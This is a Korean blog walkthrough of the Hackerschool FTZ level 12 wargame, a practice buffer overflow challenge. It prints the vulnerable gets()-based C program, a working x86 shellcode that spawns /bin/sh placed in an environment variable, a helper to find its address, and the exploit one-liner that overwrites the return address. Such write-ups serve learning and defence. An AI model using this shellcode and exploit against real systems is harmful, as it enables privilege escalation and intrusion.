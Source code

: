 ```yaml
---
date: '2022-10-02'
before : '2022-10-01'
after : '2022-10-03'
title: '시스템 해킹(10) : 해커스쿨 FTZ 레벨 12'
categories: ['C-SEC', 'KOR']
summary: ''
thumbnail: './C_Sec.jpg'
---
```


### 0. __들어가기 전에__

이것 또한 기본 BOF문제라고 할 수 있겠다. 11번과 다른 점은 gets를 사용한다는 점이다.

### 1. __Level 12__

접속하면 AttackMe 실행파일이 존재한다. 소스코드를 확인해보자.

```
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main( void )
{
        char str[256];

        setreuid( 3093, 3093 );
        printf( "문장을 입력하세요.\n" );
        gets( str );
        printf( "%s\n", str );
}
```

레벨 11과 다를 것 없는 구조다. 다른 점은 gets(str)을 이용해 입력을 받는다는 사실.
gets()는 정말 위험한 함수니 내가 프로그래밍 할땐 절대 사용하지 않도록 해야겠다...


**<환경변수 등록>**

쉘코드는 4바이트짜리 return 에 들어가기는 너무 길다. 따라서 우린 "환경 변수"" 라는 친구를 만들어서 그 친구의 주소를 파악한 다음, 그 주소를 return 주소로 넘기도록 하겠다.
```
export SHELLCODE=$(python -c 'print "\x31\xc0\xb0\x31\xcd\x80\x89\xc3\x89\xc1\x31\xc0\xb0\x46\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"') 
//환경변수 등록
```
쉘코드는 인터넷에서 카피해오는게 제일 빠르다..
```
int main(){ //get.c
        printf("%p\n", getenv("SHELLCODE"));
        return 0;
}
//쉘코드의 위치를 알려줄 함수 작성
```
c파일을 gcc로 컴파일 했으면 실행해보자. 다음과 같은(유사한) 결과를 얻을 것이다.
```
./get => 0xbffffc8d
```
이제 이 주소를 little endian x90형식으로 변환시키면 된다. 이 경우에는 **\x8d\xfc\xff\xbf** 가 될 것이다. 그럼 이제 이 값을 return주소에 넣어주면 된다.


**<버티컬바 "|" 실행>**

버티컬바 하나는 앞의 명령어 실행 결과를 뒤의 명령어의 입력으로(!) 넘긴다.
물론 먼저 attackme를 실행한 후 268개의 문자를 일일히 타자로 쳐도 되겠지만(...) 너무 귀찮은 작업이니 python -c를 사용하기 위해  cat으로 문장을 입력받은 다음 버티컬 바를 이용해서 이를 매개변수로 넘겨주도록 하자.
```
"\x90"*268+"\x8d\xfc\xff\xbf
 (python -c 'print"\x90"*268+"\x8d\xfc\xff\xbf"'; cat) | ./attackme
```
비밀번호 : have no clue

---
## Source

- 해커스쿨 FTZ
- Me!
